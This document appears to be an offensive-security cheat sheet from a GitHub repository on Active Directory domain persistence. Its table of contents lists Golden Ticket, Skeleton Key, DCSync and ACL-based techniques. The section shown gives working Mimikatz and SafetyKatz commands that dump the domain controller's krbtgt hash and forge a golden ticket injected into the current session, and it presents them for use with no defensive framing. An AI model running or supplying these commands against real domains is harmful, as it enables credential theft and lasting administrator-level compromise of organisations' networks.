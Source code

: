 # Domain persistence
* [Golden Ticket](#Golden-Ticket) 
* [Silver Ticket](#Silver-Ticket)
* [Skeleton Key](#Skeleton-Key)
* [DSRM](#DSRM)
* [Custom SSP - Track logons](#Custom-SSP---Track-logons)
* [ACL](#ACL)
  * [AdminSDHolder](#AdminSDHolder)
  * [DCsync](#DCsync)
  * [SecurityDescriptor - WMI](#SecurityDescriptor---WMI)
  * [SecurityDescriptor - Powershell Remoting](#SecurityDescriptor---Powershell-Remoting)
  * [SecurityDescriptor - Remote Registry](#SecurityDescriptor---Remote-Registry)
  * [msDS-AllowedToDelegateTo](#msDS-AllowedToDelegateTo)
* [Computer Account](#Computer-Account)


## Golden ticket
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets

#### Dump hashes of DC
- Get the krbtgt hash
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <COMPUTERNAME>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```

```
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

#### Create a Golden ticket
- Use /ticket instead of /ptt to save the ticket to file instead of loading in current powershell process
- To get the SID use ```Get-DomainSID``` from powerview
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /krbtgt:<HASH> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /krbtgt:<HASH> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

#### Use the DCSync feature for getting krbtgt hash. Execute with DA privileges
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```

#### Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <COMPUTERNAME>
```
